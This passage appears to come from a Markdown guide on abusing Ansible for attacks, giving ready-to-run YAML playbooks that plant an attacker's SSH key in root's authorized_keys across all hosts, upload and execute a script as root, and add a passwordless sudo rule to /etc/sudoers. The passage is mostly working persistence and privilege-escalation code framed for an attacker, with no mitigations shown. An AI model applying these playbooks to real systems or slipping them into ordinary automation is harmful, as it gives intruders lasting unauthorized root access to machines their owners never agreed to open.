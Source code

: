 ### 3. **Copying SSH Keys for Lateral Movement**
   - An attacker can use Ansible to copy SSH keys to other systems, enabling lateral movement by establishing persistent, unauthorized access.
   - Example:
     ```yaml
     - name: Copy SSH key to target hosts
       hosts: all
       become: yes
       tasks:
         - name: Ensure ~/.ssh directory exists
           file:
             path: /root/.ssh
             state: directory
             mode: '0700'

         - name: Copy authorized_keys file
           copy:
             src: /path/to/attacker_key.pub
             dest: /root/.ssh/authorized_keys
             mode: '0600'
     ```

### 4. **Executing Scripts with Elevated Privileges**
   - The `script` module can be used to upload and execute a script on remote systems. If the script is run with `--become`, it could lead to privilege escalation.
   - Example:
     ```yaml
     - name: Upload and execute script with root privileges
       hosts: all
       become: yes
       become_user: root
       tasks:
         - name: Upload script
           copy:
             src: /local/path/to/script.sh
             dest: /tmp/script.sh
             mode: '0755'
         
         - name: Execute script
           command: /tmp/script.sh
     ```

### 5. **Modifying System Configuration Files**
   - Ansible can be used to modify sensitive system configuration files like `/etc/sudoers`, which can grant unauthorized access to users or groups.
   - Example:
     ```yaml
     - name: Add user to sudoers file
       hosts: all
       become: yes
       tasks:
         - name: Ensure sudoers file allows passwordless sudo for specific user
           lineinfile:
             path: /etc/sudoers
             state: present
             regexp: '^%admin'
             line: '%admin ALL=(ALL) NOPASSWD: ALL'
     ```

